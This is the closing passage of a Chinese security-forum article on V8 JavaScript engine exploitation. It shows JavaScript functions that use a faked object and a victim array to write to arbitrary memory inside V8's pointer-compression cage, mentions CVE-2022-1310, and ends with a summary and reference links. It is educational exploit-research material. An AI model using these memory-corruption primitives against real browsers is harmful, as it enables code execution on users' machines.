 function arb_write_half_cage(addr, val) {  
        let orig_val = arb_read_cage(addr);  
        fake_object[0] = pair_u32_to_f64(val, orig_val&0xffffffffn);  
}  
  
function arb_write_full_cage(addr, val) {  
        victim_array[(fake_object_addr - data_element_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x20);  
        fake_object[0] = u64_to_f64(val);  
}  

**特定地址对象伪造**比如`CVE-2022-1310（https://blog.csdn.net/qq_61670993/article/details/136708292）`

  

这个其实跟二个差不多，单独拿出来，是因为写这个`exp`时，我遇到了很多玄学问题，如果劫持`backing_stroe`后无法往`rwx`页面写`shellcode。`所以这里就不写了，读者可以尝试复现上面的`CVE`，毕竟自己动手才有深刻的印象。

  

四  

  

总结

  

总的来说，笔者感觉这个方法还是比较好用的，笔者也用该方法完成了之前没有完成的利用（各种玄学原因），但是其需要版本适配，所以并不是特别完美。

  

  

# 参考：

https://bbs.kanxue.com/thread-273709.htm

  

  

  

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

  

**看雪ID：XiaozaYa**

https://bbs.kanxue.com/user-home-965217.htm

*本文为看雪论坛精华文章，由 XiaozaYa 原创，转载请注明来自看雪社区

  

[![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458549899&idx=2&sn=3b4e7a153ecae83bebc29171115d92eb&chksm=b18d4e0186fac717b973449c0e3e0ce10b8054c366ea91c3648c60a8d59d0e902e6504beefe3&scene=21#wechat_redirect)

  

  